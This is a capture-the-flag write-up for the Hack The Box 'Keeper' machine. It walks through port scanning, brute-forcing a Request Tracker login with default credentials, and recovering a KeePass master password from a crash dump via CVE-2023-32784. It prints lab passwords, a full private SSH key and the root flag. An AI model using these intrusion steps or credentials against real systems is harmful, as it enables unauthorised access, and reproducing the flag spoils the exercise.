





This is how I pwned Keeper.

<br>

## Initial Foothold

IP Address
```
10.129.97.93 - HTB Machine
```

Open Ports
```
22/tcp open  ssh
80/tcp open  http
```

Nmap Scan
```shell
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3539d439404b1f6186dd7c37bb4b989e (ECDSA)
|_  256 1ae972be8bb105d5effedd80d8efc066 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
> There is no title.

Accessing port 80 `http://10.129.97.93`, the hostname can be found.
```
http://tickets.keeper.htb/rt/

tickets.keeper.htb
keeper.htb
```


Adding the hostname in my `/etc/hosts` file
```shell
[...]
10.129.97.93    keeper.htb tickets.keeper.htb
```

Re-running Nmap to fully check again.
```shell
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3539d439404b1f6186dd7c37bb4b989e (ECDSA)
|_  256 1ae972be8bb105d5effedd80d8efc066 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-trane-info: Problem with XML parsing of /evox/about
|_http-title: Login
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
> There is now a http-title

Accessing `http://tickets.keeper.htb/rt/` reveals a login page and some useful information about the web application/software running.
```
RT 4.4.4+dfsg-2ubuntu1 (Debian)
```
> RT is Request Tracker

Checking if the version of `request-tracker4` is vulnerable in `https://security-tracker.debian.org/tracker/source-package/request-tracker4`
```
CVE-2022-25802 - Best Practical Request Tracker (RT) before 5.0.3 has an Open Redirect via a ticket search. 

CVE-2022-25802 - Best Practical Request Tracker (RT) before 4.4.6 and 5.x before 5.0.3 allows XSS via a crafted content type for an attachment.

CVE-2021-38562 - Best Practical Request Tracker (RT) 4.2 before 4.2.17, 4.4 before 4.4.5, and 5.0 before 5.0.2 allows sensitive information disclosure via a timing attack against lib/RT/REST2/Middleware/Auth.pm.
```
> None of this CVEs was used.

Brute forcing the Login page to check for weak/common credentials.
```http
POST /rt/NoAuth/Login.html HTTP/1.1
Host: tickets.keeper.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 59
Origin: http://tickets.keeper.htb
Connection: close
Referer: http://tickets.keeper.htb/rt/NoAuth/Login.html
Cookie: RT_SID_tickets.keeper.htb.80=a7ba7d37f8a19490f8fee5a2d8eca0ec
Upgrade-Insecure-Requests: 1

user=admin&pass=admin&next=fa8fafdc8171c2402eecbe0bd46af56d
```
> Using Burp Intruder and common username and password wordlist in Seclists.

<br>

## Road to User

### Successful Login - 302 Found
```http
POST /rt/NoAuth/Login.html HTTP/1.1
Host: tickets.keeper.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 61
Origin: http://tickets.keeper.htb
Connection: close
Referer: http://tickets.keeper.htb/rt/NoAuth/Login.html
Cookie: RT_SID_tickets.keeper.htb.80=a7ba7d37f8a19490f8fee5a2d8eca0ec
Upgrade-Insecure-Requests: 1

user=root&pass=password&next=fa8fafdc8171c2402eecbe0bd46af56d
```
> root:password is a valid credential



<br>

### Further enumeration

User enumeration in `http://tickets.keeper.htb/rt/Admin/Users/`
```
27 	lnorgaard 	Lise Nørgaard 	lnorgaard@keeper.htb
14 	root 	    Enoch Root 	    root@localhost
```
> While exploring the web application a user enumeration is found.

<br>

### Finding user creds

Checking the user `lnorgaard` in `http://tickets.keeper.htb/rt/Admin/Users/Modify.html?id=27`, a password for this user is found in the comments.
```
Welcome2023!
```



<br>

### User.txt
A stable shell is achieved by logging in SSH using the found user `lnorgaard@keeper.htb` and its password `Welcome2023!`.
```shell
└─$ ssh lnorgaard@keeper.htb   
The authenticity of host 'keeper.htb (10.129.97.93)' can't be established.
ED25519 key fingerprint is SHA256:hczMXffNW5M3qOppqsTCzstpLKxrvdBjFYoJXJGpr7w.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'keeper.htb' (ED25519) to the list of known hosts.
lnorgaard@keeper.htb's password: 
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-78-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage
You have mail.
Last login: Tue Aug  8 11:31:22 2023 from 10.10.14.23
lnorgaard@keeper:~$ 
```

> User flag is owned!

<br>

## Path to Power (Gaining Administrator Access)

### Enumeration as user `lnorgaard`
Skipping other enumeration. 

Checking the mail, there is a mail for `lnorgaard` and `root` (but I have no read permission).
```shell
lnorgaard@keeper:/$ ls /var/mail
lnorgaard  root  www-data
```

Reading `lnorgaard`'s mail
```shell
lnorgaard@keeper:/$ cat /var/mail/lnorgaard
From www-data@keeper.htb  Wed May 24 12:37:18 2023
Return-Path: <www-data@keeper.htb>
X-Original-To: lnorgaard@keeper.htb
Delivered-To: lnorgaard@keeper.htb
Received: by keeper.htb (Postfix, from userid 33)
	id 64BEF61083; Wed, 24 May 2023 12:37:18 +0200 (CEST)
From: "Enoch Root" <rt@keeper.htb>
In-Reply-To:
Content-Type: multipart/alternative; boundary="----------=_1684924638-1803-2"
X-Managed-BY: RT 4.4.4+dfsg-2ubuntu1 (http://www.bestpractical.com/rt/)
X-RT-Loop-Prevention: tickets.keeper.htb
Subject: [tickets.keeper.htb #300000] Issue with Keepass Client on Windows
X-RT-Originator: root@localhost
References: <RT-Ticket-300000@keeper.htb>
Reply-To: rt@keeper.htb
X-RT-Ticket: tickets.keeper.htb #300000
Message-ID: <rt-4.4.4+dfsg-2ubuntu1-1803-1684924638-1810.300000-8-0@keeper.htb>
To: lnorgaard@keeper.htb
Precedence: bulk
Date: Wed, 24 May 2023 12:37:18 +0200
MIME-Version: 1.0
Content-Transfer-Encoding: 8bit

This is a multi-part message in MIME format...

------------=_1684924638-1803-2
RT-Attach-Message: yes
Content-Type: text/plain; charset="utf-8"
X-RT-Original-Encoding: utf-8

Wed May 24 12:37:18 2023: Request 300000 was acted upon by root.

Transaction: Ticket created by root
      Queue: General
    Subject: Issue with Keepass Client on Windows
      Owner: lnorgaard
 Requestors: webmaster@keeper.htb
     Status: new
 Ticket URL: http://keeper.htb/rt/Ticket/Display.html?id=300000


Lise,

Attached to this ticket is a crash dump of the keepass program. Do I need to
update the version of the program first...?

Thanks! 

------------=_1684924638-1803-2
Content-Type: text/html; charset="utf-8"
X-RT-Original-Encoding: utf-8

<b>Wed May 24 12:37:18 2023: Request <a href="http://keeper.htb/rt/Ticket/Display.html?id=300000">300000</a> was acted upon by root.</b>
<br>
<table border="0">
<tr><td align="right"><b>Transaction:</b></td><td>Ticket created by root</td></tr>
<tr><td align="right"><b>Queue:</b></td><td>General</td></tr>
<tr><td align="right"><b>Subject:</b></td><td>Issue with Keepass Client on Windows </td></tr>
<tr><td align="right"><b>Owner:</b></td><td>lnorgaard</td></tr>
<tr><td align="right"><b>Requestors:</b></td><td>webmaster@keeper.htb</td></tr>
<tr><td align="right"><b>Status:</b></td><td>new</td></tr>
<tr><td align="right"><b>Ticket URL:</b></td><td><a href="http://keeper.htb/rt/Ticket/Display.html?id=300000">http://keeper.htb/rt/Ticket/Display.html?id=300000</a></td></tr>
</table>
<br/>
<br/>
Lise,<br>
<br>
Attached to this ticket is a crash dump of the keepass program. Do I need to update the version of the program first...?<br>
<br>
Thanks! 

------------=_1684924638-1803-2--

lnorgaard@keeper:/$ 
```
> In the email, it says that there is an attached crash dump of the keepass program.
> 
> So back in the home folder (`~/`) there's a zip file named `RT-30000.zip` (RT for Request Tracker and 30000 is the ID of the ticket created by root in the email).

<br>

### RT-30000.zip
Unzipping the `RT-30000.zip`, reveals two files named `passcodes.kdbx` and `KeePassDumpFull.dmp`.
Searching around Google about Keepass, there's a recent exploit in the KeePass program [CVE-2023-3278](https://www.bleepingcomputer.com/news/security/keepass-exploit-helps-retrieve-cleartext-master-password-fix-coming-soon/) that can retrieve the cleartext master password using the crash dump.

### CVE-2023-32784
Using the [POC here](https://github.com/vdohney/keepass-password-dumper), a result is given.
```
Password candidates (character positions):
Unknown characters are displayed as "*"
1.:     *
2.:     ,, l, `, -, ', ], A, I, :, =, _, c, M,
3.:     d,
4.:     g,
5.:     r,
6.:     *
7.:     d,
8.:      ,
9.:     m,
10.:    e,
11.:    d,
12.:     ,
13.:    f,
14.:    l,
15.:    *
16.:    d,
17.:    e,
Combined: *{,, l, `, -, ', ], A, I, :, =, _, c, M}dgr*d med fl*de
```

This is the master password but it is not clear yet.
```
**dgr*d med fl*de
```
> After so many hours of password cracking, reading, and searching on Google. I certainly did not think of this is a Danish word, I had a thought that this is a ciphertext but it is not.
> The hint goes back to the user `lnorgaard` its name is Lise Nørgaard.
> Searching Lise Nørgaard on Google results to a Danish journalist.
> Searching the incomplete string of master password in Google results in Rødgrød med Fløde, a traditional Danish dessert.


<br>

### Getting a shell

After so many iterations of password combinations, successfully opened the file `passcodes.kdbx` using `rødgrød med fløde` via a KeePass portable app.

```
root@keeper.htb:F4><3K0nd!
```

### Spawning a shell
There is a privatekey in the Notes section of root user in the `passcodes.kdbx` file.
Copy all and paste it to a new file with extension `.ppk`.

privatekey.ppk
```
PuTTY-User-Key-File-3: ssh-rsa
Encryption: none
Comment: rsa-key-20230519
Public-Lines: 6
AAAAB3NzaC1yc2EAAAADAQABAAABAQCnVqse/hMswGBRQsPsC/EwyxJvc8Wpul/D
8riCZV30ZbfEF09z0PNUn4DisesKB4x1KtqH0l8vPtRRiEzsBbn+mCpBLHBQ+81T
EHTc3ChyRYxk899PKSSqKDxUTZeFJ4FBAXqIxoJdpLHIMvh7ZyJNAy34lfcFC+LM
Cj/c6tQa2IaFfqcVJ+2bnR6UrUVRB4thmJca29JAq2p9BkdDGsiH8F8eanIBA1Tu
FVbUt2CenSUPDUAw7wIL56qC28w6q/qhm2LGOxXup6+LOjxGNNtA2zJ38P1FTfZQ
LxFVTWUKT8u8junnLk0kfnM4+bJ8g7MXLqbrtsgr5ywF6Ccxs0Et
Private-Lines: 14
AAABAQCB0dgBvETt8/UFNdG/X2hnXTPZKSzQxxkicDw6VR+1ye/t/dOS2yjbnr6j
oDni1wZdo7hTpJ5ZjdmzwxVCChNIc45cb3hXK3IYHe07psTuGgyYCSZWSGn8ZCih
kmyZTZOV9eq1D6P1uB6AXSKuwc03h97zOoyf6p+xgcYXwkp44/otK4ScF2hEputY
f7n24kvL0WlBQThsiLkKcz3/Cz7BdCkn+Lvf8iyA6VF0p14cFTM9Lsd7t/plLJzT
VkCew1DZuYnYOGQxHYW6WQ4V6rCwpsMSMLD450XJ4zfGLN8aw5KO1/TccbTgWivz
UXjcCAviPpmSXB19UG8JlTpgORyhAAAAgQD2kfhSA+/ASrc04ZIVagCge1Qq8iWs
OxG8eoCMW8DhhbvL6YKAfEvj3xeahXexlVwUOcDXO7Ti0QSV2sUw7E71cvl/ExGz
in6qyp3R4yAaV7PiMtLTgBkqs4AA3rcJZpJb01AZB8TBK91QIZGOswi3/uYrIZ1r
SsGN1FbK/meH9QAAAIEArbz8aWansqPtE+6Ye8Nq3G2R1PYhp5yXpxiE89L87NIV
09ygQ7Aec+C24TOykiwyPaOBlmMe+Nyaxss/gc7o9TnHNPFJ5iRyiXagT4E2WEEa
xHhv1PDdSrE8tB9V8ox1kxBrxAvYIZgceHRFrwPrF823PeNWLC2BNwEId0G76VkA
AACAVWJoksugJOovtA27Bamd7NRPvIa4dsMaQeXckVh19/TF8oZMDuJoiGyq6faD
AF9Z7Oehlo1Qt7oqGr8cVLbOT8aLqqbcax9nSKE67n7I5zrfoGynLzYkd3cETnGy
NNkjMjrocfmxfkvuJ7smEFMg7ZywW7CBWKGozgz67tKz9Is=
Private-MAC: b0a0fd2edf4f0e557200121aa673732c9e76750739db05adc3ab65ec34c55cb0
```

<br>

### Root.txt

Using PuTTy, load the private key file and login to SSH using the `root` username and no need of password.
```shell
Using username "root".
Authenticating with public key "rsa-key-20230519"
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-78-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

You have new mail.
Last login: Tue Aug  8 19:00:06 2023 from 10.10.14.41
root@keeper:~# ls
root.txt  RT30000.zip  SQL
root@keeper:~# cat root.txt
ef7855e46c6bdd19e5c06c17d46546f3
root@keeper:~#
```

That's how I pwned Keeper.

<br>

#### Achievement:
https://www.hackthebox.com/achievement/machine/743510/556